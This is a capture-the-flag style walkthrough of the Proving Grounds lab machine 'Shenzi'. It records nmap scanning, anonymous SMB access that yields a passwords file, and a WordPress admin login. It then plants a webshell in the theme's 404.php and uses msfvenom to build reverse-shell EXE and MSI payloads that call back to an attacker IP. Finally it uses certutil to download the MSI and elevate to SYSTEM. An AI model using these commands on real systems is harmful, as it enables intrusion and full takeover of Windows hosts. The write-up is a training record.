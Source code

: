 ```yaml
---
description: PG Practice Shenzi Writeup
---
```


# Shenzi

## Nmap

```
sudo nmap 192.168.235.55 -p- -sV -sS 

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd 0.9.41 beta
80/tcp   open  http          Apache httpd 2.4.43 
((Win64) OpenSSL/1.1.1g PHP/7.4.6)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.43 (
(Win64) OpenSSL/1.1.1g PHP/7.4.6)
445/tcp  open  microsoft-ds?
3306/tcp open  mysql?
5040/tcp open  unknown
```

As SMB is open we can run `smbclient` with no credentials to see if we can connect.

```
smbclient -U ''  -L \\\\192.168.235.55\\ 
```

After running the above command `smbclient` returns results showing a share called 'Shenzi'. We can connect to the share and then view the contents with the `dir` command.

```
smbclient -U ''  \\\\192.168.235.55\\Shenzi 
```

![](<../../../.gitbook/assets/image (830).png>)

From here I set the `recurse` command and `prompt off` before downloading all files for an easy single line download.

![](<../../../.gitbook/assets/image (831).png>)

The contents of passwords.txt of course proved to be interesting.

![](<../../../.gitbook/assets/image (832).png>)

Out of all of the credentials above the Wordpress one was potentially the most interesting considering further checks for phpmyadmin and webdav showed either the services are not running or inaccessible outside of local access on the target machine.

Running `dirsearch.py` against port 80 showed no interesting directories discovered.

![](<../../../.gitbook/assets/image (833).png>)

Knowing that Wordpress is potentially installed and that Wordpress sites do not generally have to exist in the directory of /wordpress/ I tried the Machine and SMB share name of Shenzi on port 80.

![http://192.168.235.55/shenzi/](<../../../.gitbook/assets/image (834).png>)

Now that we have a valid Wordpress site and some credentials we can try logging in. Heading over to [http://192.168.235.55/shenzi/wp-admin/](http://192.168.235.55/shenzi/wp-admin/) I was able to login with the credentials of `admin:FeltHeadwallWight357`

Heading over to Appearance > Theme editor I was able to edit the contents of the 404.php file and insert a webshell.

![http://192.168.235.55/shenzi/wp-admin/theme-editor.php?file=404.php\&theme=twentytwenty](<../../../.gitbook/assets/image (835).png>)

After saving changes and browsing to [http://192.168.235.55/shenzi/404.php](http://192.168.235.55/shenzi/404.php) we can see we now have a webshell and confirmed command execution.

![http://192.168.235.55/shenzi/404.php](<../../../.gitbook/assets/image (836).png>)

From here I created a `msfvenom` reverse shell:

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.235 LPORT=8082 -f exe > /home/kali/windows/reverseshell.exe`

Uploaded the file with the PHP webshell and set a `netcat` listener on port 21. After uploading the shell through the webshell I then executed and recieved a shell back.

![](<../../../.gitbook/assets/image (837) (1).png>)

After some initial enumeration I was unable to find anything interesting. I then turned to `winpeas` to look for any quick wins. Shortly after running I came into:

![](<../../../.gitbook/assets/image (838).png>)

With this we can create a malicious MSI file with `msfvenom` and when executed will be run in the context of SYSTEM.

First create a reverse shell MSI.

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.235 LPORT=21 -f msi > /home/kali/windows/priv.msi`

![](<../../../.gitbook/assets/image (839).png>)

Then set up a `netcat` listener on the attacking machine. Then using `certutil.exe` I downloaded the MSI and executed.

![](<../../../.gitbook/assets/image (840) (1).png>)

Then received a shell on the listener as SYSTEM.

![](<../../../.gitbook/assets/image (841).png>)
